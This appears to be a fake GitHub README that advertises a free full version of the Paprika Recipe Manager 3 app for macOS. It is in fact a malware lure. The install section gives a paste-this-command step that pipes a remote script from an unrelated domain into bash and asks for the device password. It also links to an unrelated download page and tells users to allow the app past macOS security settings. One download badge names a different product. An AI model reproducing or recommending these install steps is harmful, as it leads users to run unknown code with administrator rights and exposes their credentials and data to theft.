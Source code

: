 <p align="center">
  <img src="https://play-lh.googleusercontent.com/XaFExOs9MMdCKM51P3JEt4E_vKUSWTzanixQCwUFutoIyPNlKmxi1I2NlT9R4AHURJg=w240-h480-rw" alt="Paprika Recipe Manager Mac Banner" />
</p>

<h1 align="center">Paprika Recipe Manager 3 for macOS</h1>

<p align="center">
  🥘 Cook smarter with a recipe manager that helps you save, organize, plan, and shop — all in one app.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/125" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Paprika Recipe Manager 3 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://is1-ssl.mzstatic.com/image/thumb/Purple118/v4/8b/57/93/8b5793de-cc2d-e98d-0dd9-76f40c489667/pr_source.png/643x0w.jpg" alt="Paprika Recipe Manager Main Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Paprika Recipe Manager 3?

**Paprika Recipe Manager 3** is an intelligent and elegant app for collecting, organizing, and cooking your favorite recipes on macOS. With built-in tools for grocery list generation, meal planning, and cross-device syncing, Paprika turns your Mac into a digital cooking companion.

Save recipes from any website with a single click, scale ingredients based on serving size, and cook hands-free with the built-in cooking mode. You can even plan your week’s meals, automatically populate your shopping list, and sync it to your phone.

Paprika 3 is optimized for Apple Silicon and supports macOS Sonoma, Ventura, and Monterey — delivering fast performance and seamless organization for your culinary life.

---

## ✅ Why Choose Paprika Recipe Manager 3?

- 🍳 **Smart Clipper** – Save recipes directly from websites  
- 🛒 **Grocery List Generator** – Auto-create shopping lists by meal  
- 📅 **Meal Planner** – Plan meals for days or weeks in advance  
- 🍽️ **Cooking Mode** – Focused UI with hands-free timers  
- 🧂 **Ingredient Scaling** – Adjust quantities to fit your needs  
- 📲 **Cross-Device Sync** – Access recipes from iPhone, iPad, Mac  
- ✏️ **Custom Categories & Tags** – Organize your way  
- 📚 **Offline Storage** – Access everything without internet  

> Whether you're a home cook or a pro chef, Paprika makes cooking more efficient, enjoyable, and organized.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://www.paprikaapp.com/blog/media/images/2017/11/recipes_v3.png" alt="Paprika Grocery List Screenshot" />
  <br><br>
  <img src="https://macautomationtips.com/wp-content/uploads/2020/01/Paprika-app-2.png" alt="Paprika Meal Planner Screenshot" />
</p>

---

## 🚀 Key Features

- 🍲 Save recipes from any website  
- 📖 Digital cookbook and organizer  
- 📋 Auto-generate grocery lists  
- 📅 Weekly meal planning  
- ⏲️ Cooking timers and tools  
- 🧮 Ingredient scaling by portions  
- 🔄 Cloud sync across devices  
- 🖥️ Apple Silicon native  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Paprika Recipe Manager under "App Management"

---

## 🔍 Tags

```text
paprika recipe manager mac download, paprika 3 for macbook, paprika app full version mac, recipe organizer for mac, grocery list planner macos, meal planner app mac, download paprika 3 macos, paprika for m1 mac, paprika 3 ventura compatible, mac cooking recipe software, paprika apple silicon native, best recipe manager macbook, paprika sync across devices, paprika macbook pro, paprika recipe manager standalone installer
